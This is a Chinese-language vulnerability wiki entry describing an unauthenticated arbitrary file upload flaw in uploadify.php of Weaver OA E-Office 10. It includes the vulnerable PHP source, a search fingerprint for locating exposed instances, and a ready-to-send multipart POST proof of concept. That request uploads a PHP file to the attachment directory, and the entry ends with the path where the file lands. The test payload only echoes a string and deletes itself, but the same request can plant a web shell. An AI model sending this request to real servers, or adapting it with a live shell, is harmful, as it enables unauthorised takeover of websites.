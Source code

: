 # 泛微OA E-Office uploadify 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office 在 uploadify.php 中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629192036675-609c0b9d-2484-4e61-bb92-da8c1ce0067c-1814947.png)

```php
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

验证POC

```php
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![img](/assets/PeiQi-Wiki/img/1691804423513-f15a6608-1744-47f5-9310-f651ac47a189.png)

```php
/attachment/3466744850/xxx.php
```